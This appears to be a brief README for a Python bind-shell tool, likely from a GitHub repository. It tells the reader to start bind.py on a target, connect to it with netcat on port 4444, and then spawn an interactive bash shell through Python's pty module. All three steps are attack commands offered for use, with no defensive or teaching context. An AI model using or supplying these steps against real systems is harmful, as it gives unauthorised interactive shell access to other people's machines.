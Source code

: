 1. Start bind.py on the target.
2. Connect using nc to target 

```bash
nc targetip 4444
```
3.Run the fallowing command on terminal 

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
